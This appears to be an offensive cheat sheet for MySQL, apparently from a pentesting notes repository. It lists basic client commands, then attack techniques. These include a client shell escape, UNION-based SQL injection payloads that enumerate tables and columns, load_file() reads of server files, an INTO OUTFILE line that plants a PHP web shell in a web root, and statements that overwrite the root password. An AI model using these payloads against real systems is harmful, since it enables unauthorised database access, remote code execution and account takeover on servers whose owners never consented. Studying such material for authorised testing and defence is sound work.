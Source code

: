 # MySQL commands

MySQL is an open source Relational Database Management System (RDBMS) that uses Structured Query Language (SQL). 

Default port is 3306

```bash
$ 3306/tcp open  mysql
```

## Connect

Local, without password:

```bash
$ mysql -u root
```

Local, with password (if not given, will be asked):

```bash
$ mysql -u root -p <password>
```

Remote:

```bash
$ mysql -h <Hostname> -u root
```

## Basic mysql commands
```text
show databases;
use <database>;
show tables;
describe <table_name>;
```

```text
select grantee, table_schema, privilege_type FROM schema_privileges; #Exact privileges
select user,file_priv from mysql.user where user='root'; #File privileges
select version(); #version
select @@version(); #version
select user(); #User
select database(); #database name
```

## Get a shell with the MySQL client user

```text
\! sh
```

## Basic MySQLi

```text
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"
```

## Read & Write

```text
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'
```

## Try to change MySQL root password

```text
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;
```

```text
mysql -u username -p < mycommands.sql #A file with all the commands you want to execute
mysql -u root -h 127.0.0.1 -e 'show databases;'
```